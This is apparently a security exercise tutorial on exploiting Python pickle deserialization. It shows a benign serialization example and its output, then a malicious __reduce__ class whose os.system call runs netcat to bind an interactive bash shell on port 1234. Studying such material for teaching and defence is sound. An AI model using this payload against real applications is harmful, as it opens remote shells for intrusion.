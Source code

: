 ## Introduction
-->This exercise covers the exploitation of Python's pickle when used to deserialize untrusted data
-->Serialisation of object is used by application to make their storage easier. If an application needs to store an instance of a class, it can use serialisation to get a string representation of this object. When the application needs to use the instance again, it will unserialise the string to get it.
-->Obviously, if the malicious user can tamper with a string that will be deserialised, they can potentially trigger unexpected behaviour in the application. Depending on the language and library used, this unexpected behaviour can go from arbitrary object creation to remote code execution. This exercise covers the Pickle library used by Python to perform serialisation and deserialisation of objects.

## Pickle
-->The following code is used to create and serialise an instance of the class Hack (here with Python 2) :
```python
	import cPickle
	class Hack:
	  def __init__(self):
	    self.test1 = "test"  
	    self.test2 = "retest"  
	 
	h = Hack()
	print cPickle.dumps(h)
	# print(cPicke.loads(h))   // to desiralise 
```
-->The line cPickle.dumps(Hack()) is used to transform the new instance h of the class Hack into a string.
-->Ini ee serialise chytha object desirialisation chyan `> print(cPicke.loads(h))` koduthal mathi
-->We can now see what a pickled object looks like :
```python
$ python test.py
	(i__main__
	Hack
	(dp1
	S'test1'
	p2
	S'test'
	p3
	sS'test2'
	p4
	S'retest'
	p5
	sb.
```
-->Since the format is multi-lines and contain a fair-bit of special characters, it's unlikely that a web application uses it as it is. Most web applications dealing with pickle objects will encode them (for example using base64).

## Code execution with Pickle
-->If an application unserialises data using pickle based on a string under your control, you can execute code in the application. To do so, you will need to create a malicious object. The following example creates an object that will bind a shell on port 1234 and run /bin/bash :
```python
 class Blah(object):
   def __reduce__(self):
       return (os.system,("netcat -c '/bin/bash -i' -l -p 1234 ",))
```
